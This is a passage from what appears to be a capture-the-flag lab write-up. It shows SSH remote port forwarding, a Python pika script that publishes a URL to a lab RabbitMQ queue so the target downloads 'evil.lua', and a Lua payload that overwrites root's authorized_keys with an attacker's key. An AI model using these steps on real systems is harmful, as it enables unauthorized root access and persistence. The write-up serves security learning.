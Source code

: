 ### RabbitMQ Client - Pika

To that end, I wrote the following script to "publish" my malicious script. However, remember that no outbound traffic is allowed? To overcome that problem, I'd to set up SSH remote port forwarding to the Python HTTPServer hosting the malicious Lua script like so.

```
# ssh -R8000:127.0.0.1:8000 -i minatotw MinatoTW@10.10.10.190
```

For now, I don't have the malicious Lua script developed. The purpose of this exercise is to prove that someone or something will, upon consuming the queue for the URL, download the malicious Lua script.

<div class="filename"><span>amqp.py</span></div>

```python
import pika

parameters = pika.URLParameters('amqp://yuntao:EashAnicOc3Op@10.10.10.190')
connection = pika.BlockingConnection(parameters)
body='http://127.0.0.1:8000/evil.lua'
channel = connection.channel()
channel.queue_declare(
        queue='plugin_data',
        durable=True)
channel.exchange_declare(
        exchange='plugin_data',
        durable=True)
channel.queue_bind('plugin_data', 'plugin_data', '')
channel.basic_publish(
        exchange='plugin_data', routing_key='', body=body,
        properties=pika.BasicProperties(content_type='text/uri-list', delivery_mode=1))
connection.close()
```

Let's give it a shot.

{% include image.html image_alt="083c5481.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/083c5481.png" %}

Ok. We got the URL published to the `plugin_data` exchange and queue. What about our Python HTTPServer? Is there any request?

{% include image.html image_alt="9ca3a301.png" image_src="/a2cd26f2-ab3c-489f-adbb-94571685c40f/9ca3a301.png" %}

Awesome.

### Malicious Lua Script

The idea here is simple. Write a SSH public key we control to `/root/.ssh/authorized_keys`.

<div class="filename"><span>evil.lua</span></div>

```lua
file = io.open('/root/.ssh/authorized_keys', 'w+')
ssh = 'ssh-rsa AAAAB3N...P8g2Yw0E='
file.write(ssh)
file.close()
```
